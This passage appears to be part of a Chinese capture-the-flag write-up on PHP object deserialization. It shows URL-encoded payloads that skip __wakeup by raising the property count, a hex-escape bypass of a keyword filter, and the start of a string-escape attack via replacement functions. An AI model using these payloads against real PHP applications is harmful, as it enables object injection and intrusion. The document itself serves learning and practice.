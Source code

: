 在 midsolo 中 wakeup 需要绕过，老套路了：**序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过 wakeup 的执行**，这里我将1改为2：

```
O%3A7%3A%22topsolo%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A6%3A%22jungle%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D
O:7:"topsolo":1:{s:7:"\000*\000name";O:7:"midsolo":2:{s:7:"\000*\000name";O:6:"jungle":1:{s:7:"\000*\000name";s:0:"";}}} 
```

注意还得对关键字“name”的检测进行绕过：

```
···
function check($data)
{
if(stristr($data, 'name')!==False){
die("Name Pass\n");
    }
else{
return $data;
    }
}
··· 
```

这里使用十六进制绕过\6e\61\6d\65，并将s改为S：

```
O%3A7%3A%22topsolo%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A6%3A%22jungle%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D 
```

**字符串逃逸**

访问index.php，传入数值，得到序列化内容：

```
O:6:"player":3:{s:7:"\0*\0user";s:0:"";s:7:"\0*\0pass";s:126:"O:7:"topsolo":1:{S:7:"\0*\0\6e\61\6d\65";O:7:"midsolo":2:{S:7:"\0*\0\6e\61\6d\65";O:6:"jungle":1:{S:7:"\0*\0\6e\61\6d\65";s:0:"";}}}";s:8:"\0*\0admin";i:0;} 
```

可以看到对象topsolo，midsolo被s:102，所包裹，我们要做的就是题目环境本身的替换字符操作从而达到对象topsolo，midsolo从引号的包裹中逃逸出来：

```
···
function read($data){
    $data = str_replace('\0*\0', chr(0)."*".chr(0), $data);
    var_dump($data);
return $data;
}
function write($data){
    $data = str_replace(chr(0)."*".chr(0), '\0*\0', $data);
return $data;
}
··· 
```

